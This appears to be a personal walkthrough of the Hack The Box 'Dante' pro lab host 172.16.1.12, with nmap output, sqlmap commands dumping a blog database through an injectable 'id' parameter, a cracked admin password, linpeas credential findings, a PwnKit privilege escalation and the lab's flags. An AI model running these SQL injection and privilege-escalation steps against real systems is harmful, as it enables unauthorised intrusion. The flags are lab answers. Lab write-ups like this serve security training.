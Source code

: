 # Host [172.16.1.12](http://172.16.1.12):

```
Nmap scan report for 172.16.1.12
Host is up (0.052s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.43 ((Unix) OpenSSL/1.1.1g PHP/7.4.7 mod_perl/2.0.11 Perl/v5.30.3)
443/tcp  open  ssl/http Apache httpd 2.4.43 ((Unix) OpenSSL/1.1.1g PHP/7.4.7 mod_perl/2.0.11 Perl/v5.30.3)
3306/tcp open  mysql?
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port21-TCP:V=7.92%I=7%D=9/18%Time=6327AADE%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,8F,"220\x20ProFTPD\x20Server\x20\(ProFTPD\)\x20\[::ffff:172\.1
SF:6\.1\.12\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20cre
SF:ative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creative
SF:\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3306-TCP:V=7.92%I=7%D=9/18%Time=6327AAD3%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GenericLine
SF:s,4B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GetRequest,4
SF:B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(HTTPOptions,4B,
SF:"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RTSPRequest,4B,"G
SF:\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20t
SF:o\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck,4B,"G\0\0\
SF:x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20to\x20
SF:connect\x20to\x20this\x20MariaDB\x20server")%r(DNSVersionBindReqTCP,4B,
SF:"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatusRequestT
SF:CP,4B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help,4B,"G\
SF:0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq,4B,"G\
SF:0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServerCookie
SF:,4B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TLSSessionReq
SF:,4B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Kerberos,4B,"
SF:G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,4B,"G\0
SF:\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20to\
SF:x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,4B,"G\0\0\x0
SF:1\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20to\x20co
SF:nnect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.02 seconds
zsh: segmentation fault  proxychains nmap -sV 172.16.1.12
```

After conducting a directory bruteforce, I found a list of team members.:
![](./_resources/HTB_Pro_Lab_Dante.resources/ferox172.txt)

![](./_resources/HTB_Pro_Lab_Dante.resources/image.30.png)

I found the blog site which may have specific vulnerablities in ExploitDB so I will need to check this out. I need to investigate blogadmin site. Also check the ferox file saved to the Desktop.

```
http://172.16.1.12/blog/blogadmin/index.php
```

I found an admin login here:
```
http://172.16.1.12/blog/blogadmin/index.php?signIn=1
```

After running SQLmap on the url showing the "id" paramter (which isn't escaped), I found the following tables.:
```
proxychains sqlmap http://172.16.1.12/blog/category.php?id=0 --db --batch
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.86.png)
I got the first flag.:
```
proxychains sqlmap http://172.16.1.12/blog/category.php?id=0 --dump -D flag
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.87.png)

```
DANTE{wHy_y0U_n0_s3cURe?!?!}
```

The SQLmap scans are saved in the following directory.: /home/cl3al/.local/share/sqlmap/output/172.16.1.12/dump/blog\_admin\_db . From here, I cansee the admin user ben and an MD5 hash which I can easily crack with hashcat or John.:
```
ben,ben@dante.htb,NULL,NULL,NULL,NULL,442179ad1de9c25593cabf625c0badb7
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.88.png)

I used [crackstation.net](http://crackstation.net) to crack the MD5 hashes found very quickly.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.89.png)
I was then able to login via FTP and SSh with:
```
uname: ben
passwd: Welcometomyblog
```
I now found the flag in ben's directory!:
```
DANTE{Pretty_Horrific_PH4IL!}
```

I found another user by the name of "Julian".  I will try to see if perhaps I can get linpeas on there. After running linpeas, I found the following information:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.90.png)
Raw data:
```
══════════╣ Searching passwords in config PHP files
'adminPassword' => "21232f297a57a5a743894a0e4a801fc3",
$dbPassword = '';
$dbUsername = 'root';
'adminPassword' => "21232f297a57a5a743894a0e4a801fc3",
$dbPassword = '';
$dbUsername = 'root';
// define('DATABASE', 'mssql'); 
define('DATABASE', 'mysql');
define('DATABASE', 'mysqli');
if($passwd === NULL) $passwd = ini_get("mysql.default_password");
if($passwd === NULL) $passwd = ini_get("mysqli.default_pw");
define('TABLE_USER',      'mdb_querytool_user');
        'password' => $_ENV['MYSQL_TEST_PASSWD'],
        'password' => $_ENV['PGSQL_TEST_PASSWD'],
$cfg['Servers'][$i]['AllowNoPassword'] = true;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['ShowChgPassword'] = true;
```

Vulnerabilities (CVEs):
```

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Potentially Vulnerable to CVE-2022-2588
```

This CVE is the PNWkit vulnerability which I used the POC exploit tool for. I successfully gained privesc to root and got the last flag for this machine!:
```
DANTE{sudo_M4k3_me_@_Sandwich}
```
